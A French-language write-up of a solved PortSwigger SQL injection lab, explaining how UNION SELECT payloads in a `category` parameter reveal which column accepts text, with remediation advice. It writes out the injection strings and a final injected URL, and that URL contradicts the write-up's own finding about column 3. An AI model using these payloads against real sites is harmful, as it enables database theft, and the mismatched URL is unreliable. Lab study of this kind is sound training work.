


# Lab 4 — UNION Attack : trouver la colonne contenant du texte

**Source** : PortSwigger Web Security Academy
**Titre du lab** : Attaque par injection SQL UNION, recherche d'une colonne contenant du texte
**Statut** : ✅ Résolu

## Objectif

Identifier quelle colonne de la requête SQL accepte des données de type texte, en faisant apparaître la valeur `bojY6z` dans les résultats de la page.

## Contexte

L'application filtre les produits par catégorie via le paramètre `category` dans l'URL. La requête retourne plusieurs colonnes, mais toutes ne sont pas compatibles avec du texte.

URL cible :
https://0ac8003604af2d7a81ed93d700040066.web-security-academy.net

## Vulnérabilité

Injection SQL dans le paramètre `category`, permettant d'injecter une clause UNION pour fusionner les résultats avec une requête arbitraire.

## Exploitation

**Étape 1** : On sait déjà (lab précédent) que la requête retourne **3 colonnes**.

**Étape 2** : On teste chaque colonne avec la valeur texte `bojY6z`.

**Tentative 1** (échec) :
Lifestyle' UNION SELECT 'bojY6z',NULL,NULL--
→ Erreur : la colonne 1 n'accepte pas de texte.

**Tentative 2** (échec) :
Lifestyle' UNION SELECT NULL,'bojY6z',NULL--
→ Erreur : la colonne 2 n'accepte pas de texte.

**Tentative 3** (succès) :
Lifestyle' UNION SELECT NULL,NULL,'bojY6z'--
→ Succès : la valeur `bojY6z` apparaît dans la page. La **colonne 3** accepte du texte.

**URL finale utilisée** :
https://0ac8003604af2d7a81ed93d700040066.web-security-academy.net/filter?category=Food+%26+Drink%27UNION%20SELECT%20%27bojY6z%27,NULL,NULL--

**Explication** :
- On remplace un NULL par une valeur texte à chaque tentative
- Si la colonne est de type numérique, la base de données retourne une erreur
- Si la colonne est de type texte, la valeur s'affiche dans la page
- La colonne 3 est la seule compatible avec du texte dans cette requête

## Résultat

Le lab a été marqué comme **Résolu**, confirmant que la **colonne 3** accepte des données texte.

## Impact

Connaître la colonne texte permet à un attaquant d'extraire des données sensibles comme des noms d'utilisateurs, des mots de passe ou des emails directement dans la page web visible.

## Remédiation

- Utiliser des **requêtes préparées (prepared statements)**
- Ne jamais afficher directement dans la page les données issues de la base de données sans validation
- Mettre en place un **WAF** pour bloquer les tentatives d'injection UNION

## Captures d'écran

**1. Résultats avec tous les produits affichés**

**2. Lab résolu**

